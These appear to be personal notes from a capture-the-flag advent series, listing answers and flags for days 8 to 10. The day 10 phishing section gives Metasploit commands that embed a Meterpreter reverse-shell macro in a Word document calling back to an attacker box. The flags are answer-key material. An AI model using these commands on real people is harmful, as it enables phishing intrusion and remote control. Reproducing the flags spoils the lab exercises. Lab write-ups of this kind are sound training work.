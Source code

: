 

## day 8 : windows shellcodes

What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the **C:\Users\glitch\Desktop** directory. You can view the content of the flag by using the command **type C:\Users\glitch\Desktop\flag.txt**.

```
AOC{GOT_MY_ACCESS_B@CK007}
```

https://www.youtube.com/@TheBeardedITDad


## day 9 :  GRC 

watch?=NoMNMJGdwn0

governance compliance regulation 

```
What does GRC stand for?

governance, risk, and compliance 

What is the flag you receive after performing the risk assessment?

THM{R15K_M4N4G3D}
```


## day 10: phishing 

 Metasploit Framework
```
msfconsole

set payload windows/meterpreter/reverse_tcp

use exploit/multi/fileformat/office_word_macro

# attackbox IP
set LHOST 10.10.26.235 

# specifies the port number you are going to listen on for incoming 
# connections on the AttackBox
set LPORT 8888 

show options # check everything is set properly

exploit #  generates a macro and embeds it in a document

exit

# document is stored
/root/.msf4/local/msf.docm
```
